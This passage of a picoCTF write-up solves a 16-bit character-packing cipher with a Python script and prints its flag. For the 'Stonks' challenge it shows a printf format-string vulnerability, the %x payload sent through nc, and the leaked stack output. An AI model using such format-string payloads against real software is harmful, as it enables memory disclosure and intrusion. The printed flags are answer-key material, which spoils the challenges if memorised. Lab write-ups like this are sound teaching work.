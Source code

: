 ### Solution

The challenge gives us encryption algorithm, and encrypted text. So we can get the flag by reversing that algorithm. I have created a simple python script to solve this challenge. Run this script:

#### solve.py
```
encrypted_text = '灩捯䍔䙻ㄶ形楴獟楮獴㌴摟潦弸彥ㄴㅡて㝽'
for i in encrypted_text:
    i = ord(i)
    belakang = str(bin(i)[-7:])
    print(f"{chr(i>>8)}{chr(int(belakang,2))}",end='')
```

### Flag
> picoCTF{16_bits_inst34d_of_8_e141a0f7}


## Stonks

### Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/f9d545499faf6f436853685ad21dcb33/vuln.c) `nc mercury.picoctf.net 33411`

### Information

***Point Value***: 20 points

***Category***:  Binary Exploitation

### Hints

1. Okay, maybe I'd believe you if you find my API key.

### Solution

 The Vulnerability of this program is on the statement below.  
 ```
 scanf("%300s", user_buf);
 printf(user_buf);
 ```
 
We can figure out the system data with input user. Try to put this string `"%x%x%x%x%x%x%x"` in input (length of the string is what you want). he output will contain a hex digit which might be a flag. I have been make an input in "input" file (we only use fitur 1 [buy some stonks] because the vuln command is on that).

> nc mercury.picoctf.net 33411\
> 1\
> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x

And we got this:
> 8271410804b00080489c3f7f14d80ffffffff1826f160f7f22110f7f14dc708270180882713f082714106f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431fff7007df7f4faf8
